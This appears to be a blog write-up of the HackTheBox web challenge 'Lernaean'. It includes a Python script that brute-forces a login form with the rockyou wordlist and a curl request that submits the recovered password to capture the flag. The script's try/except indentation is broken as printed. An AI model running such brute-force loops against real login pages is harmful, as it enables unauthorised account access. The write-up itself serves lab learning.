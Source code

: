 ```yaml
---
title: 'HackTheBox - [WEB] Lernaean'
summary: "I just create my account on HackTheBox, so let's begin with web challenge and with the one called Lernaean.
This challenge is only worth 20 points, so it should be an easy one..."
---
```


I just create my account on HackTheBox, so let's begin with web challenge and with the one called Lernaean.
This challenge is only worth 20 points, so it should be an easy one...

The only description we have before starting the challenge instance is:

> "Your target is not very good with computers. Try and guess their password to see if they may be hiding anything!"

After starting the instance, we have this webpage:

![webpage](/blog/hackthebox-web-lernaean/webpage.png)

The source code of the page do not contain anything interesting,
and with the description of the challenge it's not hard to understand that the purpose of this challenge is to
**Brute Force** the administrator password.

First, let's see what happen with BurpSuite when we try to login with the password "Hello":

![burpsuite](/blog/hackthebox-web-lernaean/burp.png)

We can see that a POST request with data "password=hello" is sent to the webpage challenge.

And when the password is incorrect, this text show up in the top left corner of the webpage:

![invalid error message](/blog/hackthebox-web-lernaean/invalid.png)

Now that we know these information let's build a python script to brute force the password input.
I'm using **urllib**, it's a python3 library which allow to make request very easily.

```python
#!/usr/bin/python
import os,sys,json
from urllib import request, parse

target = "http://docker.hackthebox.eu:30814/"

print ("Loading the passwords list...\n")

# Read and split the password file
passfile = open('/root/Downloads/rockyou.txt', 'r', errors='surrogateescape')
passwords = passfile.read().split('\n')
passfile.close()

print ("Start attack on target: %s" %target)

# Start the brute force
for password in passwords:
    print ("Trying %s" %password)
    payload = {'password':password}
    payload = parse.urlencode(payload).encode('ascii')

    req = request.Request(target, data=payload)
    try:
        response = request.urlopen(req, data=payload)
        html = response.read()
        check = "Invalid password!"
        check = check.encode('utf-8')

        if check not in html:
            print ("Password found: %s" %password)
            pas = open('done.txt', 'a')
            pas.write('%s' %password)
            pas.close()
        except request.HTTPError as e:
            print (e.code)
            continue
```

<em>
  Note: I used the errors filed on open() to prevent an encoding error I
  encountered. Same for the encoding in utf-8 of the check string.
</em>

In the first part of the script, we load the password file.
I use the wordlist password file **rockyou.txt** that you can find [here](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=1&ved=2ahUKEwilp7-59OzlAhXR8uAKHfBvCncQFjAAegQIABAB&url=https%3A%2F%2Fgithub.com%2Fbrannondorsey%2Fnaive-hashcat%2Freleases%2Fdownload%2Fdata%2Frockyou.txt&usg=AOvVaw3snAERl1mU6Ccr4WFEazBd).

In the second part of the script, for each password in our passfile we send a POST request with the data **"password=ourpassword"**.
Then, we are checking if the html of the response request is containing the string **"Invalid password!"**,
if not it's mean that we find the correct password.

After creating the script don't forget to add execution right to it:

```shell
chmod +x lernaean.py
```

And let's start it with python3:

```shell
python3 lernaean.py
```

![terminal message result](/blog/hackthebox-web-lernaean/script.png)

When the script find the correct password it will write it in the **done.txt** file.

YES! We finaly have the password, let's try it on the webpage:

![too slow message](/blog/hackthebox-web-lernaean/slow.png)

What is this sorcery? We have the correct password but the webpage tell us that we are too slow.
Ok, so let's send the password with curl and see what happen:

```shell
curl docker.hackthebox.eu:30814 -d "password=leonardo" -v
```

Don't forget the **verbose** (-v) of the command to see the server response in details.

![terminal final result](/blog/hackthebox-web-lernaean/bingo-1.png)

BINGO! We have the flag in the response, between the \<h1\> html tag!
